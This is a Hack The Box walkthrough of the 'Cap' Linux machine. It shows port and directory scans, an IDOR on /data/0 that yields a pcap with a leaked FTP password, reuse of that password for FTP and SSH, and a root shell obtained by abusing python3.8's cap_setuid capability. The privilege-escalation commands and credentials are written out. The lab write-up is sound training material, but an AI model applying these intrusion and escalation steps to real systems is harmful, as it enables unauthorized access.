

# Cap (Linux)


| Link: | [https://app.hackthebox.com/machines/Cap](https://app.hackthebox.com/machines/Cap) |
| --- | --- |
| Difficulty | Easy |
| Machine | Linux |


# Enumeration

## Nmap scan

```jsx

└──╼ $sudo rustscan -a cap.htb -- -A
21/tcp open  ftp     syn-ack vsftpd 3.0.3                   
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)       
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2vrva1a+HtV5SnbxxtZSs+D8/EXPL2wiqOUG2ngq9zaPlF6cuLX3P2QYvGfh5bcAIVjIqNUmmc1eSHVxtbmNEQjyJdjZOP4i2IfX/RZUA18dWTfEWlNaoVDGBsc8zunvFk3nkyaynnXmlH7n3BLb1nRNyxtouW+q7VzhA6YK3ziOD6tXT7MMnDU7CfG1PfMqdU297OVP35BODg1gZawthjxMi5i5R1g3nyODudFoWaHu9GZ3D/dSQbMAxsly98L1Wr6YJ6M6xfqDurgOAl9i6TZ4zx93c/h1MO+mKH7EobPR/ZWrFGLeVFZbB6jYEflCty8W8Dwr7HOdF1gULr+Mj+BcykLlzPoEhD7YqjRBm8SHdicPP1huq+/3tN7Q/IOf68NNJDdeq6QuGKh1CKqloT/+QZzZcJRubxULUg8YLGsYUHd1umySv4cHHEXRl7vcZJst78eBqnYUtN3MweQr4ga1kQP4YZK5qUQCTPPmrKMa9NPh1sjHSdS8IwiH12V0=                
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)      
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqG/RCH23t5Pr9sw6dCqvySMHEjxwCfMzBDypoNIMIa8iKYAe84s/X7vDbA9T/vtGDYzS+fw8I5MAGpX8deeKI= 
|   256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d: de :b3:de:b2:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPbLTiQl+6W0EOi8vS+sByUiZdBsuz0v/7zITtSuaTFH 
80/tcp open  http    syn-ack gunicorn            
| http-methods:    
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn                         
|     Date: Wed, 26 Feb 2025 07:42:36 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">                    
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:                                
|     HTTP/1.0 200 OK                          
|     Server: gunicorn                         
|     Date: Wed, 26 Feb 2025 07:42:28 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>                          
|     <html class="no-js" lang="en">
|     <head>                                   
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">                      
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">       
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">       
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css"> 
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css"> 
|     <link rel="stylesheet" href="/static/css/themify-icons.css"> 
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar                              
|   HTTPOptions:                               
|     HTTP/1.0 200 OK                          
|     Server: gunicorn                         
|     Date: Wed, 26 Feb 2025 07:42:29 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest:                               
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>                                   
|     <head>                                   
|     <title>Bad Request</title>
|     </head>                                  
|     <body>                                   
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;              
|     </body>                                  
|_    </html>              

```

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-server) and [Apache](https://packages.ubuntu.com/search?keywords=apache2) versions. The Os is likely a Ubuntu Focal 20.04.

There was no anonymous login from NMAP so i tried manually but didn’t work 
Tried for Vhosts fuzzing too but no results were found so i moved onto look out the website for it’s funtionality.

# Website Features

## Port(80)

The website appears to be a security dashboard. A user named "nathan" is already logged in. Navigating to **Security Snapshots** leads to `/capture` and redirects to `/data/4`.



- **IP Config Page:** Displays the output of `/ipconfig`.


- **Network Status Page:** Displays the output of `/netstat`.


## Directory Bruteforcing

Using `dirsearch`, the following endpoints were found:

```jsx
❯ dirsearch -u http://cap.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Target: http://cap.htb/

[14:15:19] Starting: 

[14:17:50] 302 -  208B  - /data/adminer.php  ->  http://cap.htb/
[14:17:50] 302 -  208B  - /data  ->  http://cap.htb/
[14:17:50] 302 -  208B  - /data/autosuggest  ->  http://cap.htb/
[14:17:59] 302 -  208B  - /download/history.csv  ->  http://cap.htb/
[14:17:59] 302 -  208B  - /download/users.csv  ->  http://cap.htb/


```

### IDOR

Observing `/data/4`, I tested for an IDOR vulnerability by iterating through numbers and found that all values returned `.pcap` files.


But one file contained the FTP user credentials leak for the `nathan` user after going through of the pcap file from( `/data/0` )  

```jsx
nathan:Buck3tH4TF0RM3!
```


I quickly tried the leaked credentials in the ftp and got the user flag . 

```jsx

└──╼ $ftp cap.htb 
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:rorymercury): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||43215|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Mar 29 07:03 snap
-r--------    1 1001     1001           33 Mar 29 06:50 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||22600|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |***********************************|    33      255.76 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.42 KiB/s)
ftp> exit
221 Goodbye.

└──╼ $cat user.txt 
2e1db9900cd9fc2a66c97**********
```


## SSH

Attempting password reuse, I successfully logged into SSH as `nathan`with same password.


# Shell as root

## Enumeration

Running `LinPEAS` revealed that `python3.8` had the capability `cap_setuid+ep`, we can abuse.


## **Abusing Capabilities**

I will abuse the`cap_setuid` to change the current user id of the current process to else with the helpful guide .

[Abusing-Linux-capabilities](https://tbhaxor.com/exploiting-linux-capabilities-part-1/)

one of the capabilites the linpeas found was python with the `cap_setuid` , which seems to allow us to change the user id for this process and make ourself root

```jsx
nathan@cap:/tmp$ getcap -r / 2>/dev/null                                     
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:/tmp$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:/tmp# 

```

## Root Flag
```jsx
root@cap:/root# cat root.txt 
d19f2b2f2ebe40ace3**************

```


# Summary

- **Enumeration:** Found FTP, SSH, and a web application with IDOR.
- **Exploitation:** Retrieved FTP credentials via `.pcap` file.
- **Privilege Escalation:** Used Python capabilities to escalate to root.